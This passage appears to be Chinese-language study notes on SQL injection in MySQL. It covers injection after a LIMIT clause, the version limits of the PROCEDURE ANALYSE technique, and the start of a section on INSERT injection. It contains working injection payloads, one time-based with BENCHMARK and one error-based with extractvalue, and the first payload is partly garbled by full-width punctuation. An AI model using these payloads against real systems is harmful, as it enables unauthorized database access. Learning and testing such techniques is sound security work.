 #### 注入点在LIMIT后：

```
前提：MySQL版本 < 5.6
LIMIT后的注入判断比较简单，通过更改数字大小，页面会显示更多或者更少的记录数。
由于语法限制，前面的字符注入方式不可行（LIMIT后只能是数字），在整个SQL语句没有ORDER BY关键字的情况下，可以直接使用UNION注入。

PROCEDURE analyse（（SELECT extractvalue（l, concat（ox3a, （IF（MID（VERSION（）,1,1）LIKE 5,BENCHMARK〔500000，SHA1（1）），1）））），1）
```

##### 自我尝试

`SELECT username FROM users WHERE id > 0 ORDER BY id LIMIT 【注入点】`

如果没有order by 可以尝试union注入（order by 后面不可以接 union）
第二种方法是通过加入procedure注入，**此方法仅适用于5.0.0<mysql<5.6.6的版本**

```sql
SELECT username FROM users WHERE id > 0 ORDER BY id LIMIT 0,1 procedure analyse(extractvalue(rand(),concat(0x7e,database(),0x7e)),1);
```

<img src="图片\Snipaste_2023-02-06_16-50-09.png" alt="Snipaste_2023-02-06_16-50-09" style="zoom:80%;" />

### INSERT注入：

- INSERT语句是插入数据表记录的语句，网页设计中常在添加新闻、用户注册、回复评论的地方出现。

<img src="图片\modb_20211102_2fff3e36-3bc9-11ec-a7ab-fa163eb4f6be.png" alt="img" style="zoom:80%;" />image.png
